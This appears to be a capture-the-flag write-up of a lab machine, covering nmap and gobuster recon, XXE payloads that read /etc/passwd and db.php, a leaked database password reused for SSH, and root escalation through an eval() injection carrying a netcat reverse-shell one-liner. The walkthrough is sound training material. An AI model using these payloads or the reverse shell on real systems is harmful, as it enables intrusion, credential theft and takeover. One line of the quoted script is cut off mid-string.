




<p align="center">
  
</p>


***

# External Recon

We start with `nmap` to do our external recon:

```
Nmap scan report for 10.129.192.33

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find a ssh service on port 22 and http service on port 80. http is usually a better target as ssh. So I start there.
The website boast a bounty hunter service. First I click on all visible links and menus to get a feeling for the website.
What works, what doesn't work. But interfaces do I have - like input fields for example.

The only thing that sticks out is the "portal" page.



It's under development. An indicator that not all features (like propper coding) are ready.
The "Go here" link leads us to a bounty Report system which seems to be in a beta stadium.



Before we start messing with the system, which might take a bit, I started `gobuster` to do some background recon.

```
gobuster dir -u http://10.10.11.100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,htm,php
```

I'll show you the output later when it becomes relevant. Let's focus on the bounty report system for now.
First let's feed it with legitimate data.



From the output we can determine that the system will use a database in the future and that our data gets displayed back to us.
Nothing crazy on the surface. To look under the hood we need a tool like `burp` and use it as our proxy (google is your friend).


# Explore

After sending the same data again, we can capture the request with burp and take look at it.


Interessting: We send the data to a page with a funky name:

```
POST http://10.10.11.100/tracker_diRbPr00f314.php
```

The next interessting piece of information is the custom `X-Header`:

```
X-Requested-With: XMLHttpRequest
```

So we are sending XML data. However our payload looks more like base64 than XML.

```
data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5BIEJ1ZzwvdGl0bGU%2BCgkJ [...snip...]
```

With burp we can decode the data and make it human readable.


So we do in fact have XML formated data. Seeing this, my gut feeling is, we should try `XML-Entity-Injection` or `XXE`.

Before we do something complex we should try it with a simple proof of concept first. Like reading a file from the webserver.
We know it's a linux box, so `/etc/passwd` is a good candidate. Furthermore, I made an `/etc/hosts` entry for that box, so I can usea hostname instead of an IP. It helps sometimes.

I send the request to burps "repeater" module and changed the XML-data to read a file and include it in one of the properties that get displayed back to us.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
                <bugreport>
                <title>&xxe;</title>
                <cwe>1234</cwe>
                <cvss>1234</cvss>
                <reward>1234</reward>
                </bugreport>
```

If we send this request we will indeed get the contents of `/etc/passwd`. 


# Exploit

Since we can read files from the system now, how can we use that to our advantage? First of all there is a user called "development" on the box. 
I tried reading his `ssh` key, but wasn't successfull. Maybe our `gobuster` search in the background can help us?

```
===============================================================
2021/07/28 18:48:15 Starting gobuster
===============================================================
/index.php (Status: 200)
/resources (Status: 301)
/assets (Status: 301)
/portal.php (Status: 200)
/css (Status: 301)
/db.php (Status: 200)
/js (Status: 301)
```

We have three files with a status code of 200. The last one `db.php` sounds very promissing. If we adapt our proof of concept above to read `db.php` we will
get nothing. This could be because the file is not in the current working directory or more likly because it is a .php file. It gets interpreted from the webserver and
won't display it's content to us. But we can use a php-filter in our XXE attack to encode the data to base64 first. 

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">]>
                <bugreport>
                <title>&xxe;</title>
                <cwe>1234</cwe>
                <cvss>1234</cvss>
                <reward>1234</reward>
                </bugreport>
```


And there we have it. Some base64 encoded data. Decoding it gives us some credentials. Since password reuse is a thing, I'll try to use it to ssh into the machine as the user "development".

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

# Recon

After a successful login via ssh, I checked my group memberships and also if I can run anything as root/sudo. And as you can see, we can indeed run a python script as root via sudo.


Let's read and analyse the code:

```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticke
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

The script reads a file with a ".md" extention and checks if the string ```# Skytrain Inc``` is in the first line of that file. Next it checks if the string ```## Ticket to ``` is on the second line.
The third line of the ".md" file needs to be ```__Ticket Code:__```. The fourth line needs to start with ```**``` and needs to contain a number. But not any number, it needs to be a number that you can
divide by 7 and get a remainder of 4. A simple modulus operation. "102" should work. If all those requirements are met, the script will output "Valid ticket" or otherwise "Invalid ticket".

Let's craft a valid ticket file first as a proof of concept.

```
# Skytrain Inc
## Ticket to 
__Ticket Code:__
** 102 **
```


As you can see, we provided a valid ticket file. You might notice that the "Destination" is empty. This is because I haven't provided one. This is not needed to make the exploit
work. But it looks nicer. So the next interation of the ticket file will have "development" in the "Ticket to" field.

# Privilege Escalation

But now we need to think about a way to exploit this. If you read the code again, you might notice the `eval()` function close to the end of the script. This function can be used to run
python commands, like a system call. And since we are allowed to run the script as root those system calls are also running as root.

A couple of lines earlier we can see that the script get the ticket code by splitting the fourth line at a "+" symbol. So, if we provide a python command, in the fourth line after the ticket code,
separated by a "+" sign, we should get code execution. Let's build a new ticket file with a python reverse-shell and start a netcat listener on port 1337.

```
# Skytrain Inc
## Ticket to development
__Ticket Code:__
** 102 + __import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.39 1337 >/tmp/f') **
```




And there we have it. 

Have a good one!

x41
